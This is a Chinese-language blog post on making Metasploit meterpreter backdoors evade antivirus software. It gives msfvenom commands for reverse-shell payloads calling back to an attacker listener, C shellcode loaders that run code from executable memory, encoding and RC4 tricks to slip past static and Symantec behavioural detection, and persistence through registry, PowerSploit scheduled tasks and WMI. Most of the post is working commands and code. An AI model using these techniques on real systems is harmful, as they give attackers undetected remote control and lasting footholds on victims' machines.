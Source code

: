 ```yaml
---
layout: post
title:  "Bypass AV meterpreter免杀技巧"
date:   2016-11-15 14:41:01 +0800
categories: MSF
---
```


* content
{:toc}



0x01 meterpreter简介
------------------

MetasploitFramework是一个缓冲区溢出测试使用的辅助工具，也可以说是一个漏洞利用和测试平台，它集成了各种平台上常见的溢出漏洞和流行的shellcode，并且不断更新，使得缓冲区溢出测试变的方便和简单。
需要说明的是meterpreter在漏洞利用成功后会发送第二阶段的代码和meterpreter服务器dll，所以在网络不稳定的情况下经常出现没有可执行命令，或者会话建立执行help之后发现缺少命令，经常出现什么sending stager error，如果网络真的很差的话，可以选用stageless meterpreter。

（meterpreter网上的资料很多，drops上就有不少，我们就长话短说，介绍最有用的几个。）

0x02 生成后门
---------

在旧的metasploit中，生成payload是用msfpayload+msfencode，之后rapid7整合了这两个命令变成了msfvenom，并添加了更多的功能，下面是用msfvenom生成backdoor的实例。

    msfvenom -p  windows/meterpreter/reverse_tcp lhost=192.168.1.200 lport=4444 -f exe > /root/Desktop/Green_m.exe

这样可以生成一个使用tcp协议反向连接到192.168.1.200的4444端口的meterpreter的后门。
这样生成的exe可以运行，但是会被杀掉。

0x03 生成shellcode免杀
------------------

长话短说，手动编译meterpreter并对shellcode进行编码就能绕过静态查杀，meterpreter本身就是直接加载进内存并且有编码，绕过动态查杀基本没问题，(当然你也可以使用veil-evasion，不过效果不怎么好)

    msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00’ lhost=192.168.1.200 lport=4444   -f c

上述命令生成在之前的基础上生成基于c语言格式的shellcode，通过e参数指定编码方式，i参数指定编码次数，b参数去除指定代码，一般是空代码或者错误代码，-f指定生成格式。

    unsigned char buf[] = 
    "shellcode is here";
    main()
    {
    	( (void(*)(void))&buf)();
    }

这种方式vc++6.0能够成功编译，但是vs编译会报错，可以换成

    main()
    {
    	Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    	memcpy(Memory, buf, sizeof(buf));
    	((void(*)())Memory)();
    }

还有很多其他的方法，这里就不一一测试了。

**友情提示：在实战情况下，免杀效果会根据编译器和系统环境而变化，可以多准备一些环境进行免杀工作。**

通过上述方法编译生成的exe可以绕过几乎100%杀软，包括360，卡巴斯基，小红伞等杀软。


0x04 选择payload进行免杀
------------------

上面生成shellcode的方式是针对杀软静态免杀的，接下来说到动态行为免杀。

在对市面上主流的杀软进行测试的过程中，发现symantec会在meterpreter回连成功，从metasploit里接受数据的时候报毒。

无论是自己手动编码编译还是msf自动生成的exe都会这样被报毒。

经过笔者自己测试，使用reverse_https等payload可以anti symantec。

    msfvenom -p  windows/meterpreter/reverse_https  lhost=192.168.1.200 lport=443   -f c

但是需要在metasploit设置

    set EnableStageEncoding true
    set stageencoder x86/fnstenv_mov
    set stageencodingfallback false

将控制端向被控制端发送的stage进行编码，从而绕过symantec的查杀。

同样，使用reverse_tcp_rc4也有同样的效果，而且不能设置stageencoder选项，更稳定更方便。

    msfvenom -p  windows/meterpreter/reverse_tcp_rc4  lhost=192.168.1.200 lport=4444 RC4PASSWORD=Green-m  -f c

利用rc4对传输的数据进行加密，密钥在生成时指定，在监听的服务端设置相同的密钥。就可以在symantec眼皮地下执行meterpreter。

这里做一个抛砖引玉的作用，其他payload的查杀效果需要各大黑客自己去测试。

0x05 meterpreter常驻的免杀
---------------------

常见的添加meterpreter 常驻的方法无非两种，

persistence和metsvc，这两种方法效果还是不错的，不过在面对杀软的时候无能为力，几乎100%被杀。

下面介绍几种能绕过杀软的添加自启动方法。

 - **1.使用exploit/windows/local/registry_persistence**

通过用户自己指定payload及编码方式，将shellcode添加到注册表，然后再利用powershell加载该shellcode，成功运行meterpreter。

由于加载的payload是由metasploit指定，每次都不一定一样，这个方法在面对大部分主流AV的时候简直强大，只要不监视注册表操作不限制powershell，几乎不会被杀。

同类型的还有其他payload，如exploit/windows/local/vss_persistence，exploit/windows/local/s4u_persistence，有的效果也不错，如添加计划任务启动的功能，但或多或少都有一些限制，总体说来不如上面讲到的方法。

 - **2.利用powershell**

powershell因为其特性，被很多杀毒软件直接忽视，因此用这个方法经常能达到出其不意的效果

其实这个方式和第一种原理都是一样，不过自定义的powershell脚本效果更佳。

这里可以利用一个工具powersploit，下面用它来示范一个简单的例子。

    Import-Module .\Persistence\Persistence.psm1
    
    $ElevatedOptions = New-ElevatedPersistenceOption -ScheduledTask -OnIdle
    
    $UserOptions =New-UserPersistenceOption -ScheduledTask -Hourly
    
    Add-Persistence -FilePath .\Green_m.ps1 -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose

其中Green_m.ps1是加载有payload的powershell脚本文件，你可以用msf生成一个加载meterpreter的ps1文件。

    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.200 lport=4444 -f psh-reflection -o Green_m.ps1

当然你也可以选择不执行powershell文件而直接执行某个PE文件，可以通过将代码赋予变量来执行。

    $Green_m = { c:\windows\system32\notepad.exe }
    
    $ElevatedOptions =New-ElevatedPersistenceOption -PermanentWMI -AtStartup
    $UserOptions =New-UserPersistenceOption -ScheduledTask -Hourly
    Add-Persistence -ScriptBlock $Green_m -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $Us erOptions -Verbose -PassThru | Out-EncodedCommand | Out-File .\EncodedPersistentScript.ps1

powersploit还有其他非常有用的功能，有兴趣可以自己去github或者使用get-help查询。

 - **3.手动编写**

只要是工具用得太多都难免被AV发现，这个时候就需要手动编写自启动功能。

手动添加自启动，自删除，再改个图标后缀技能骗过杀软也能骗过人眼，扩展一下就是个大马，这里就不多说了。

0x06 总结
-------

meterpreter因为其简单多变的结构，强大的功能，在渗透中面对未知杀软环境的情况下效果不错。

***注：本文所做所有测试不保证完全有效，仅供参考。***

转载请注明出处：[https://green-m.github.io/2016/11/15/meterpreter-bypass-av/](https://green-m.github.io/2016/11/15/meterpreter-bypass-av/)
